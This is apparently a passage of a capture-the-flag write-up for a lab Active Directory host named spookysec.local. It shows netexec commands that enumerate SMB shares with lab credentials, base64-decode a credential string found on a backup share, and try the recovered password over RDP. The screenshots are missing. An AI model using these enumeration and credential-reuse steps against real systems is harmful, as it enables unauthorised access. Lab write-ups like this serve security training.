




```
nxc smb spookysec.local -u svc-admin -p management2005 --shares
```

Enumerating shares we have backup

We find a credential file:


Now decoding:
```
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```
We have credentials:


We can try the credentials on rdp:
```
nxc rdp spookysec.local -u backup -p backup2517860
```


We can login through rdp:
